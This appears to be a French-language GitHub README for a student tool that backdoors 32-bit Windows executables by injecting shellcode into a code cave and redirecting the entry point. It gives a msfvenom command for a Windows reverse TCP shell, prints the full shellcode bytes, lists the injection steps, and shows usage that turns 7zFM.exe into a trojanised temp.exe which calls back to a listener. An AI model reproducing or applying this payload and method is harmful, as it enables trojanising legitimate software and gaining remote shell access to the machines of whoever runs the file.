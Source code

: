 # Rendu-Python-script


Le script est un tool permettant d'injecter une backdoor et de bypass ou un bout de code dans un fichier binaire 32 Bit.
Le tool bypass egalement l'ASLR.


###

Pré-requis:

Installer les libs python pefile et pykd.

Générer un reverse shell avec la commande suivante: msfvenom -a x86 --platform windows -p windows/shell_reverse_tcp LHOST=<ip> LPORT=<port> EXITFUNC=none -f py

Puis remplacer l'output directement dans le code source du script python comme cela:

```
shellcode = bytes(
b""
b"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b"
b"\x50\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7"
b"\x4a\x26\x31\xff\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf"
b"\x0d\x01\xc7\xe2\xf2\x52\x57\x8b\x52\x10\x8b\x4a\x3c"
b"\x8b\x4c\x11\x78\xe3\x48\x01\xd1\x51\x8b\x59\x20\x01"
b"\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b\x01\xd6\x31"
b"\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03\x7d"
b"\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66"
b"\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0"
b"\x89\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f"
b"\x5f\x5a\x8b\x12\xeb\x8d\x5d\x68\x33\x32\x00\x00\x68"
b"\x77\x73\x32\x5f\x54\x68\x4c\x77\x26\x07\xff\xd5\xb8"
b"\x90\x01\x00\x00\x29\xc4\x54\x50\x68\x29\x80\x6b\x00"
b"\xff\xd5\x50\x50\x50\x50\x40\x50\x40\x50\x68\xea\x0f"
b"\xdf\xe0\xff\xd5\x97\x6a\x05\x68\x0a\x21\x05\x0e\x68"
b"\x02\x00\x04\xd2\x89\xe6\x6a\x10\x56\x57\x68\x99\xa5"
b"\x74\x61\xff\xd5\x85\xc0\x74\x0c\xff\x4e\x08\x75\xec"
b"\x68\xf0\xb5\xa2\x56\xff\xd5\x68\x63\x6d\x64\x00\x89"
b"\xe3\x57\x57\x57\x31\xf6\x6a\x12\x59\x56\xe2\xfd\x66"
b"\xc7\x44\x24\x3c\x01\x01\x8d\x44\x24\x10\xc6\x00\x44"
b"\x54\x50\x56\x56\x56\x46\x56\x4e\x56\x56\x53\x56\x68"
b"\x79\xcc\x3f\x86\xff\xd5\x89\xe0\xe4\x56\x46\xff\x30"
b"\x68\x08\x87\x1d\x60\xff\xd5\xbb\xaa\xc5\xe2\x5d\x68"
b"\xa6\x95\xbd\x9d\xff\xd5\x3c\x06\x7c\x0a\x80\xfb\xe0"
b"\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x53\xff\xd5"
)
```

ps: vous aurez surement besoin de faire une petite regex afin d'enlever les "buff+=".

### Fonctionnement du script:

1- Recherche de code cave suffisament grande afin d'injecter notre code malveillant.

2- Ensuite, il parse le fichier binaire afin de trouver l'entry point pour jumper directement dans notre code cave.

3- Il copie le code malveillant dans la code cave

4- puis ajoute un jump a la fin de notre code malveillant afin de revenir a l'entry point et de garder le flow d'exécution du programme.

### Pour utiliser le script:

utiliter la command: py script.py -f 7zFM.exe

Puis un fichier temp.exe est crée, démarrer un listener sur une machine virtuelle, exécuter temp.exe.

Vous devriez avec un reverse shell :)

